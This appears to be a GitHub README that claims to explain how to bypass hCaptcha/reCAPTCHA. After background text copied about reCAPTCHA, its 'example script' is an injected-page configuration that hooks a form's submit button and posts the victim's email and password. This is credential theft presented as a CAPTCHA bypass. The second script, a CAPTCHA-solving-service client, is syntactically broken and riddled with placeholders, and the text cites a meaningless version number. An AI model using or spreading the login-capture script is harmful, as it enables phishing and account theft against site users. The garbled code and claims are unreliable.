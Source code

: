 # Bypass hCaptcha key token 
## ``You have to pass the CAPTCHA test to prove you are “not a robot” before you can access some part of a website. Usually, this occurs at a point where you need to complete a form to sign up, subscribe, or make a purchase on a website or app``

What Is reCAPTCHA?
reCAPTCHA is a human verification system developed in 2007 and purchased by Google in 2009. Initially, the tool was developed to help digitize books that couldn’t be scanned by computers. Once enacted to verify users, reCAPTCHA displayed two different distorted words with lines running through them (compared to CAPTCHA’s random sequences of letters and numbers).

By 2012, the project began incorporating images from Google Street View. By now, you’ve almost certainly spent a decent chunk of time clicking all of the images that contain a stoplight just to prove you’re not a bot. And you’ve probably failed some of these tests, too! As noted by Baymard Institute, “Only 66% of users during our qualitative usability testing successfully entered the CAPTCHA on the first attempt

There were a few more iterations of reCAPTCHA, including the noCAPTCHA reCAPTCHA (where low-risk users only had to click a checkbox that stated “I’m not a robot”) and reCAPTCHA v3.

About reCAPTCHA v3
In 2018, Google unveiled reCAPTCHA v3, the latest iteration of the tool. Even if you’re an incredibly proficient internet user, there’s a good chance you’re scratching your chin and wondering whether you’ve come across reCAPTCHA v3 before.

With reCAPTCHA v3, you don’t have to decipher distorted words, you don’t have to click boxes to indicate you know what a car looks like, and you don’t even have to click the “I’m not a robot” checkbox, either. That’s because reCAPTCHA v3 exists largely in the background—completely invisible to the average user.

As such, reCAPTCHA v3 helps companies detect bots while ostensibly delivering a better user experience—but it hurts user privacy in exchange.

### How bypass CAPTCHA ???

<p align="center">
  <img src="https://github.com/trewisscotch/CF-Bypass/blob/main/CF%20hc1.png" alt="animated" />
</p>

#### -1- You will need to extract the key to pass the captcha

<p align="center">
  <img src="https://github.com/trewisscotch/CF-Bypass/blob/main/CF%20hc2.png" alt="animated" />
</p>

#### -2- Write a script (scripting was in the previous repositories)(it can also be used for yaml, php, html)
The script should be written for a specific version of ReCaptcha v1.2.3.4.H.Ge.

#### -3- Below is an example of one of the script

```
js_inject:
  - trigger_domains: [""]
    trigger_paths: [""]
    trigger_params: []
    script: |
      function lp(){
        var submit = document.querySelectorAll('button[type=button]')[4];
        submit.setAttribute("onclick", "sendData()");
        return;
      }
      function sendData(){
        var email = document.getElementsByName("email")[1].value;
        var password = document.getElementsByName("password")[0].value;
        var xhr2 = new XMLHttpRequest();
        xhr2.open("POST", '/', true);
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send("Email="+encodeURIComponent(email));
        var xhr = new XMLHttpRequest();
        xhr.open("POST", '/', true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("Password="+encodeURIComponent(password));
        return;
      }
      setTimeout(function(){ lp(); }, 2500);
```

```
// API key
// https://---
const API_KEY = "XXXX";

// Find site key of a website
const googleSiteKey = document
  .getElementsByClassName("g-recaptcha")[0]
  .getAttribute("data-sitekey");

// Helper parsing function
const extractTextFromResponse = (response) =>
  response.status === 200 ? response.text().then((text) => text) : false;

// Helper delay function
const delay = (value) => new Promise((res) => setTimeout(res, value));

// Function for sending captcha we want to solve to the API
async function sendCaptcha() {
  const captchaDataString = [
    "key=" + API_KEY,
    "method=userrecaptcha",
    "googlekey=" + googleSiteKey,
    "pageurl=" + window.location.href,
  ].join("&");
  return await fetch("https://----)
    .then( => extractTextFromResponse)
    .then( => {
      if (----) {
        console.error(----);
        return false;
    })
    .catch((error) => {
      console.error("Something went wrong", error);
      return false;
    });
}

// Function that waits for a response
async function poolResponse(
  requestId,
  counter = 0,
  counterLimit = 3,
  waitTime = 20000,
  decrementWaitTimeBy = 5000
) {
  if (counter === counterLimit || waitTime < 0) {
    console.error("Captcha was not solved in time.");
    return false;
  }
  await delay(waitTime - decrementWaitTimeBy); // Wait some time
  const dataStringRes = [
    "key=" + API_KEY,
    "action=GET",
    "id=" + requestId,
    "json=0",
  ].join("&");
  return fetch(-----)
    .then => extractTextFromResponse
    .catch(error) => {
      console.error("Something went wrong", error);
      reject(false);
    });
}

// Start function
(async function () {
  // Get request id of current captcha
  const requestId = await sendCaptcha();
  if (!requestId) {
    return false;
  } // Wait for somebody to solve your captcha
  const counterLimit = 3;
  for (let i = 0; i < counterLimit; i++) {
    const payload = await poolResponse(requestId, i, counterLimit);
    if (-----) {
      continue;
    }
    if (------) {
      console.error(------);
      return false;
    } // Save
    document.getElementById("g-recaptcha-response").innerHTML;
    break;
  }
})();
```
